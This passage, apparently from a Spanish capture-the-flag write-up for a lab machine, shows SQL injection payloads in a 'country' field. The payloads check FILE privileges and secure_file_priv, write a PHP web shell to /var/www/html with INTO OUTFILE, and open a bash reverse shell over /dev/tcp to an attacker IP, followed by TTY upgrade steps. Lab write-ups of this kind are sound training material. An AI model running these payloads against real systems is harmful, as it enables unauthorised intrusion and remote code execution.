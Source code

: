 Para poder escribir archivos del lado del servidor necesitamos tres cosas:

1. Usuario con privilegio `FILE` habilitado
2. Variable `secure_file_priv` no habilitada
3. Acceso de escritura en la ubicación en la que queramos escribir.

Vamos a comprobar que privilegios tiene otorgado nuestro usuario.

```plaintext
username=xdann1&country=Brazil' UNION SELECT CONCAT(grantee,0x3a,privilege_type) FROM information_schema.user_privileges WHERE grantee="'uhc'@'localhost'" AND privilege_type="FILE"-- -
```

* 'uhc'@'localhost':FILE

Ya sabemos que contamos con los privilegios necesarios, ahora vamos a ver si la variable `secure_file_priv` está activada. Esta variable se utiliza para determinar desde donde podemos leer/escribir archivos. Un valor vacío en esta variable nos indica que podemos leer/escribir en todo el sistema de archivos. MariaDB trae esta variable con un valor vacío por defecto, igualmente vamos a revisar su valor.

```plaintext
username=xdann1&country=Brazil' UNION SELECT CONCAT(variable_name,0x3a,variable_value) FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -
```

* secure_file_priv:""

Ya hemos comprobado que cumplimos con todos los requisitos para poder escribir archivos del lado del servidor. Suponiendo que la web se esté alojando en la ruta del sistema `/var/www/html` subiremos en esa ruta la web shell.

```plaintext
username=xdann1&country=Brazil' UNION SELECT "<?php system($_REQUEST['cmd']); ?>" INTO OUTFILE "/var/www/html/WebShell.php"-- -
```

![Web shell]({{ 'assets/img/commons/validation/webshell.png' | relative_url }}){: .center-image }
_Web shell_

Vamos a mandarnos una reverse shell hacia nuestro equipo para trabajar más comodamente. Lo primero de todo, es ponernos en escucha con `netcat`.

```plaintext
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ya estando en escucha introducimos el siguiente comando en la web shell, es IMPORTANTE que lo introduzcamos codificado en url. Podemos utilizar páginas web como [esta](https://www.urlencoder.org/) o herramientas como `urlencode`.

```plaintext
bash -c "bash -i >& /dev/tcp/10.10.14.16/443 0>&1"
```

Ya hemos establecido la reverse shell, ahora vamos a tratarla para hacerla completamente funcional.

```plaintext
❯ nc -nlvp 443
listening on [any] 443 ...
Connection from 10.129.97.4:53268
❯ script /dev/null -c bash
Script started, file is /dev/null
❯ CTRL + Z
[1]+ Detenido		nc -nlvp 443
❯ stty raw -echo; fg
nc -nlvp 443
	reset
reset: unknow terminal type unknown
Terminal type? xterm
❯ export SHELL=bash
```
